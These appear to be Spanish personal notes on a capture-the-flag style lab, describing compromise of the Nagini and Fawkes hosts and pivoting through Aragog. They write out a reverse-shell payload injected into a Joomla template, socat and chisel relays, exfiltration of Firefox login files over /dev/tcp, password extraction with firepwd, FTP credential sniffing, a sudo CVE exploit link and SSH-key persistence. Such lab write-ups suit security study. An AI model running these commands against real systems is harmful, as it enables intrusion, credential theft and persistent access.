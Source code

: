 - Mediante el uso de la herramienta _"joomscan"_ enumeramos el joomla y encontramos un archivo .bak. Este contiene el nombre de un usuario sin contraseña.
- *Gopherus* es una herramienta que nos permite ver datos de un DB cuando existe un usuario sin contraseña. No encontramos nada, pero podemos realizar cambios en la DB. Entonces en este punto cambiamos  la contraseña al user "site_admin".
- Dentro de _joomla_ en /extensiones/template modificamos el template de error.php para  mediante _"system(CommandRevShell)"_ mandarnos la revshell.
- Pero no tenemos conexion directa con nuestra máquina de atacante. La idea es mandarnos la rev shell  a _"Aragog"_ y desde hay mediante socar redirecionar la rev shell a nuestra máquina atacante. **Pasos:**

	- _`system("bash -c 'bash -i >0 /dev/tcp/[ipAragog]/[PortListenSocat] 0>&1");`_ En el template de erro.php del joomla incluimos este comando.
	- _`socat TCP-LISTEN:[Port en error.php],fork TCP:192.168.50.202:443`_ Este comando en Aragog,  escucha la revshell de
 error.php y la redireciona a nuestra máquina de atacante.
	- _`nc -nlvp 443`_ Y finalmente en nuestra máquina escuchamos la redirección del socat. 

- Ganamos acceso _www-data_, encontramos un creds.txt y migramos al user snape.
- Aquí vemos que existe un SUID que es copia archivo como hermoine. Entonces en /tmp nos creamos y _"authorized_keys"_ y lo compiamos al .ssh de hermoine y nos conectamos por ssh.
- Encontramos un directorio .mozilla con datos, jason,key4.db,etc.
	- Pasos para descargar archivos en nuestra máquina:
		- _`cat < logins.json > /dev/tcp/10.10.0.128/4646`_ Esto desde Nagini.
		- _`socat TCP-LISTEN:4646,fork TCP:192.168.50.202/1215`_ Socat en Aragog
		- _`nc -nlvp 1215 > logins.json`_ Listen en nuestra máquina atacante

- Si disponemos de un archivo "key4o3.db" y "logins.json" mediante la herramienta _"firepwd"_ podemos ver datos en texto claro. Extraemos pass de root. 
- **PWNED!**

### Pivoting Nagini Tunnel chisel
Como tenemos que alcanzar un nuevo segmento de red la _"192.168.100.0"_ la idea es:
	- Mover el chisel cliente a *nagini* y para mandar el tunel a *Aragog*
	- Desde *Aragog* mediante "socat" redirecionar a nuestra máquina.
- **Command:**
```python
$> ./chisel client 10.10.0.128:2322 R:8888:socks # Nagini 
$> ./socat TCP-LISTEN:2322,fork TCP:192.168.50.202:1234 # Aragog
$> chisel server --reverse -p 1234 # Atacante, debemos cambiar tambien en "proxychains.conf" a "dinamic-chain" e incluir(más arriba) "socks5 127.0.0.1 8888"
$> sudo ssh root@192.168.50.248 -L 22:10.10.0.129:22 # POSIBLE ERROR, aplicamos un local port fordwarding
```

## Fawkes
- En el puerto 21 como anonymous encontramos un binario que a su vez esta alojado en la máquina por el puerto 9898, es un BoF.
- Es un [BoF](obsidian://open?vault=Obsidian_r4mnx&file=Vulns%2FBoF) que scripteamos y nos mandamos una revshell.
- Pero antes tenemos que crear un socat en la nagini y la Aragog, para poder recibir la shell en nuestro equipo.
- Ganamos acceso pero estamos en un contenedor. "sudo -l", y podemos ejecutar sudo /bin/sh y somos root en contenedor.
- Vemos en un archivo que se tramita una peticion por ftp cada minuto. Entonces nos podemos en escucha con tcpdump -i eth0 port ftp or ftp-data. Y vemos un user y contraseña.
- Migramos a "neville" por ssh con estas credenciales.
- Buscando SUID, encontramos el binario de sudo en su version "1.8.27" y esto es [vulnerable](https://www.exploit-db.com/exploits/47502) y usamos un [exploit](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py).  Metemos persistencia "authorized_keys"
- **PWNED!**
